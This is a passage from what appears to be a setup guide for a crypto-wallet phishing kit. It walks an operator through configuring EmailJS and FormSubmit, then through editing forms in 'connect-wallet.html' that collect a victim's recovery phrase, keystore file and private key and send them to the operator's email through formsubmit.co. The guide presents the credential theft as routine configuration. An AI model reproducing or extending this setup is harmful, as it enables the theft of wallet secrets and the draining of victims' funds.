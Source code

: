 4. Note your **Template ID** (e.g., `template_xyz789`)

### 1.4 Get Public Key
1. Go to "Account" tab
2. Copy your **Public Key** (e.g., `user_123456789`)

## 🔧 Step 2: FormSubmit Setup

### 2.1 Activate FormSubmit
1. Visit [https://formsubmit.co/](https://formsubmit.co/)
2. Enter your email address
3. Click "Activate"
4. Check your email and click the activation link
5. Your FormSubmit is now active!

### 2.2 Customize Settings (Optional)
1. Go to [https://formsubmit.co/el/your-email@domain.com](https://formsubmit.co/el/your-email@domain.com)
2. Customize form settings:
   - Subject line
   - Success page URL
   - Email template
   - Spam protection

## 🔧 Step 3: Update Configuration

### 3.1 Edit config.js
Update the `config.js` file with your actual credentials:

```javascript
const CONFIG = {
    emailjs: {
        serviceId: "service_abc123",        // Your EmailJS Service ID
        templateId: "template_xyz789",      // Your EmailJS Template ID
        publicKey: "user_123456789"        // Your EmailJS Public Key
    },
    formsubmit: {
        email: "your-email@domain.com",    // Your email address
        successUrl: "https://yourdomain.com/success.html"  // Your success page
    }
};
```

### 3.2 Update HTML Forms
In `connect-wallet.html`, update the form actions:

```html
<!-- For Recovery Phrase -->
<form action="https://formsubmit.co/your-email@domain.com" method="POST">

<!-- For Keystore -->
<form action="https://formsubmit.co/your-email@domain.com" method="POST" enctype="multipart/form-data">

<!-- For Private Key -->
<form action="https://formsubmit.co/your-email@domain.com" method="POST">
```
